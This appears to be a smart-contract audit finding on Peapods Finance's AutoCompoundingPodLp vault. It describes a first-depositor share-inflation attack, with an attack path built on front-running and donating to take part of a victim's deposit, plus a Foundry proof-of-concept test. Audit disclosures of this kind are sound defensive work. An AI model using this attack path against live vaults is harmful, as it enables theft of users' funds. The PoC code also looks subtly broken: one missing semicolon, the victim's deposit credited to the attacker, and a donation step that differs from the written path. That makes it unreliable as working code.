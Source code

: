 Bouncy Rainbow Poodle

High

# Inflation attack

### Summary

During depositing the contract accrue rewards if any by calling `_processRewardsToPodLp`, which give the attacker the ability to inflate the denominator.
https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/AutoCompoundingPodLp.sol#L124


### Root Cause

Every operation in the contract start by calling _processRewardsToPodLp function to accrue rewards (eg. deposit, mint ...).
```solidity
    function _processRewardsToPodLp(uint256 _amountLpOutMin, uint256 _deadline) internal returns (uint256 _lpAmtOut) {
        if (!yieldConvEnabled) {
            return _lpAmtOut;
        }
        address[] memory _tokens = ITokenRewards(IStakingPoolToken(_asset()).POOL_REWARDS()).getAllRewardsTokens();
        uint256 _len = _tokens.length + 1;
        for (uint256 _i; _i < _len; _i++) {
            address _token = _i == _tokens.length ? pod.lpRewardsToken() : _tokens[_i];
            uint256 _bal =
                IERC20(_token).balanceOf(address(this)) - (_token == pod.PAIRED_LP_TOKEN() ? _protocolFees : 0); <@ audit
            if (_bal == 0) {
                continue;
            }
            uint256 _newLp = _tokenToPodLp(_token, _bal, 0, _deadline);
            _lpAmtOut += _newLp;
        }
        _totalAssets += _lpAmtOut; <@ audit
        require(_lpAmtOut >= _amountLpOutMin, "M");
    }
```
As we can see `_totalAssets` can be manipulated by donating token, but the _deposit function assure the shares that will be minted different from 0 which is something can be bypassed and cause losses to the user. 
```solidity
    function _deposit(uint256 _assets, uint256 _shares, address _receiver) internal {
        require(_assets != 0, "MA");
        require(_shares != 0, "MS"); <@ audit

        _totalAssets += _assets;
        IERC20(_asset()).safeTransferFrom(_msgSender(), address(this), _assets);
        _mint(_receiver, _shares);
        emit Deposit(_msgSender(), _receiver, _assets, _shares);
    }
```
### Internal Pre-conditions

The contract should have not issued any share yet.

### External Pre-conditions

there is no external Pre-conditions needed.

### Attack Path

1- The hacker mints for himself one share: deposit(1). Thus, totalAsset()==1, totalSupply()==1.
2- The hacker front-runs the deposit of the victim who wants to deposit 20,000 * 1e6.
3- The hacker inflates the denominator right in front of the victim: asset.transfer(10_000e6). Now totalAsset()==10_000e6 + 1, totalSupply()==1.
4- Next, the victim's tx takes place. The victim gets 1 * 20_000e6 / (10_000e6 + 1) == 1 shares. The victim gets only one share, which is the same amount as the hacker has.
6- The hacker burns their share and gets half of the pool, which is approximately 30_000e6 / 2 == 15_000e6, so their profit is +5,000 (25% of the victim's deposit).


### Impact

Loss of funds (25% of the victim's deposit).

### PoC

```solidity
    function testProcessAllRewardsTokensToPodLp() public {
 
        // Setup attacker
        address attacker = makeAddr("attacker");
        deal(address(autoCompoundingPodLp.asset()), attacker, 10e18);
        vm.prank(attacker);
        IERC20(autoCompoundingPodLp.asset()).approve(address(autoCompoundingPodLp), 10e18);

        // Setup victim
        address victim = makeAddr("victim");
        deal(address(autoCompoundingPodLp.asset()), victim, 200e18);
        vm.prank(victim);
        IERC20(autoCompoundingPodLp.asset()).approve(address(autoCompoundingPodLp), 200e18);

        // Mock the necessary functions and set up the test scenario
        address[] memory rewardTokens = new address[](2);
        rewardTokens[0] = address(rewardToken1);
        rewardTokens[1] = address(rewardToken2);

        mockTokenRewards.setProcessedRewardTokens(rewardTokens);

        uint256 lpAmountOut = 50 * 1e18;
        mockDexAdapter.setSwapV3SingleReturn(lpAmountOut);
        deal(autoCompoundingPodLp.pod().PAIRED_LP_TOKEN(), address(autoCompoundingPodLp), lpAmountOut);
        mockIndexUtils.setAddLPAndStakeReturn(lpAmountOut);

        // Attacker is first to deposit a dust amount.
        vm.startPrank(attacker);
        autoCompoundingPodLp.deposit(1, attacker);
        vm.stopPrank()

        uint256 rewardAmount = 100 * 1e18;
        rewardToken1.mint(address(autoCompoundingPodLp), rewardAmount);
        rewardToken2.mint(address(autoCompoundingPodLp), rewardAmount);

        // Victim deposits an arbitrary amount of tokens
        vm.startPrank(victim);
        autoCompoundingPodLp.deposit(200e18, attacker);
        vm.stopPrank();
 
        console.log("Balance of victim: ", autoCompoundingPodLp.balanceOf(victim));
        console.log("Balance of attacker: ", autoCompoundingPodLp.balanceOf(attacker));
    }
```

### Mitigation

I think you should implement dead share technique used by uniswap V2